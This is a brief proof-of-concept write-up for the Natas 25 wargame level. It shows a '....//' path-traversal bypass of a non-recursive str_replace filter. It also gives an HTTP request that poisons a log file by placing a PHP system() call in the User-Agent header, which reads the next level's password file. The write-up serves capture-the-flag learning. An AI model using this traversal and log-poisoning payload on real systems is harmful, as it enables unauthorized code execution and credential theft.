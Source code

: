 # LFI PoC

## Description
1) ```str_replace()``` is not recursively called, which makes it possible to
bypass this filter.

Example:
```php
$ php -r 'print(str_replace("../", "", "....//") . "\n");'
../
$

```

2) The log function includes the ```User-Agent``` parameter without any 
validation, which makes it possible to include arbitrary PHP code using the
LFI vulnerability.

## Request
```
GET /?lang=....//logs/natas25_kiuh65auel8ahc3u7md3rujio4.log HTTP/1.1
Host: natas25
User-Agent: <?php system("cat /etc/natas_webpass/natas26"); ?>
Cookie: PHPSESSID=kiuh65auel8ahc3u7md3rujio4
```

## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal
